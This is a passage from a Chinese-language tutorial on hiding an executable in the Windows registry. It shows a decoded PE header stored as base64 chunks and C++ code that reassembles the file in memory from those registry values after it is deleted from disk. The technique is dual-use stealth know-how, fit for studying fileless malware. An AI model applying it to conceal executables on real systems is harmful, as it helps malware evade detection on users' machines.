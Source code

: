 通过BASE64解码可以快速验证键值里面的内容是否正确，“Part1”键值内容被解码后输出如下内容（修剪过），可以看到PE文件头。

```
MZ[144][0][3][0][0][0][4][0][0][0][255][255][0][0][184][0][0][0][0][0][0][0]@[0][0][0][0][0][0][0]
[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][240][0][0][0]
[14][31][186][14][0][180][9][205]![184][2]L[205]!This program cannot be run in DOS mode.[13][13]
[10]$[0][0][0][0][0][0][0][181]!:

```

这个时候文件已经被保存在注册表里了，同时可以从磁盘里删除了。

0x01 从注册表中提取文件
==============

* * *

此时，文件被分割成多个小块并保存在注册表里。提取文件无非与第一节相反，读取存储文件的键值的每一部分、进行BASE64解码、合并文件。示例代码如下：

```
NewProcessInfo JoinRegistryToFile(const char * const strKeyName, const char * const strValueName)
{
NewProcessInfo newProcessInfo = { 0 };
std::vector<std::array<BYTE, READ_WRITE_SIZE>> splitFile;

size_t ulKeyIndex = 1;
std::string strFullName(strValueName + std::to_string(ulKeyIndex));

bool bErrorOccured = false;
auto partFile = ReadRegistryKeyString(strKeyName, strFullName.c_str(), bErrorOccured);

while (!bErrorOccured)
{
    splitFile.push_back(partFile);

    ++ulKeyIndex;
    strFullName = strValueName + std::to_string(ulKeyIndex);

    partFile = ReadRegistryKeyString(strKeyName, strFullName.c_str(), bErrorOccured);
}

newProcessInfo.pFileData = std::unique_ptr<BYTE[]>(new BYTE[splitFile.size() * READ_WRITE_SIZE]);
memset(newProcessInfo.pFileData.get(), 0, splitFile.size() * READ_WRITE_SIZE);

size_t ulWriteIndex = 0;
for (auto &split : splitFile)
{
    (void)memcpy(&newProcessInfo.pFileData.get()[ulWriteIndex * READ_WRITE_SIZE], splitFile[ulWriteIndex].data(),
        READ_WRITE_SIZE);
    ++ulWriteIndex;
}

newProcessInfo.pDosHeader = (IMAGE_DOS_HEADER *)&(newProcessInfo.pFileData.get()[0]);
newProcessInfo.pNtHeaders = (IMAGE_NT_HEADERS *)&(newProcessInfo.pFileData.get()[newProcessInfo.pDosHeader->e_lfanew]);

 return newProcessInfo;
}

```
